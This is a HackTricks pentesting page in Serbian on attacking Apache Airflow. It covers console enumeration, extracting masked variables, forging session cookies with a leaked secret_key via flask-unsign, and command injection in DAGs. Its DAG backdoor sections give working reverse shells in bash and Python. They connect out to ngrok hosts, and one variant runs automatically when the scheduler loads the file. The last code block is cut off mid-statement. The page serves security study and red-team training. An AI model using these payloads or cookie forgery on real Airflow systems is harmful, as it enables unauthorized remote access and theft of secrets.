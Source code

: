 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orchestraciju i zakazivanje podataka ili radnih tokova**. Termin "orchestracija" u kontekstu podataka označava proces organizovanja, koordinacije i upravljanja složenim radnim tokovima podataka koji potiču iz različitih izvora. Primarna svrha ovih orkestriranih radnih tokova podataka je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste u mnogim aplikacijama, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele podataka i mašinskog učenja, koji su svi osnovni za funkcionisanje aplikacija velikih podataka.

U suštini, Apache Airflow će vam omogućiti da **zakazujete izvršenje koda kada se nešto** (događaj, cron) **dogodi**.

### Local Lab

#### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletnu apache airflow docker sredinu. (Ako ste na MacOS, obavezno dodelite najmanje 6GB RAM-a docker VM-u).

#### Minikube

Jedan jednostavan način da **pokrenete apache airflow** je da ga pokrenete **sa minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfiguracija

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Pre nego što počnete da napadate Airflow, trebali biste razumeti **kako funkcionišu dozvole**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Napadi

#### Web Konzola Enumeracija

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Varijable** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* **Konekcije** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije kao što su **`secret_key`** i lozinke mogu biti sačuvane ovde)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

#### Preuzimanje Vrednosti Varijabli

Varijable se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow po defaultu prikazuje vrednost varijable u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu varijabli** čija će se **vrednost** prikazivati kao **zvezdice** u **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** se i dalje mogu **preuzeti** putem **CLI** (morate imati pristup bazi podataka), **izvršavanjem proizvoljnog DAG-a**, **API** pristupom krajnjoj tački varijabli (API mora biti aktiviran), i **čak i samim GUI-em!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite varijable** kojima želite da pristupite i **kliknite na Akcije -> Izvezi**.\
Drugi način je da izvršite **bruteforce** na **skrivenoj vrednosti** koristeći **filtriranje pretrage** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

#### Eskalacija Privilegija

Ako je konfiguracija **`expose_config`** postavljena na **True**, iz **uloge Korisnik** i **naviše** mogu **čitati** **konfiguraciju na web-u**. U ovoj konfiguraciji se pojavljuje **`secret_key`**, što znači da svaki korisnik sa ovim važećim može **napraviti svoj potpisani kolačić da bi se pretvarao da je bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde se **DAG-ovi čuvaju**, možete jednostavno **napraviti jedan** koji će vam poslati **reverse shell.**\
Imajte na umu da će ovaj reverse shell biti izvršen unutar **airflow worker kontejnera:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE u Airflow scheduler-u)

Ako postavite nešto da bude **izvršeno u korenu koda**, u trenutku pisanja ovog teksta, biće **izvršeno od strane scheduler-a** nakon nekoliko sekundi nakon što ga stavite unutar DAG-ove fascikle.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

Ako uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replicirane na ostalim mašinama** unutar DAG klastera.

#### DAG Code Injection

Kada izvršavate DAG iz GUI-a, možete **proslediti argumente**.\
Stoga, ako DAG nije pravilno kodiran, mogao bi biti **ranjiv na Command Injection.**\
To se desilo u ovom CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da **počnete da tražite command injections u DAG-ovima** je da se **parametri** **pristupaju** sa kodom **`dag_run.conf.get("param_name")`**.

Štaviše, ista ranjivost se može javiti sa **varijablama** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost varijabli** u GUI-u). Varijable se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se koriste, na primer, unutar bash komande, mogli biste izvršiti injekciju komande.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
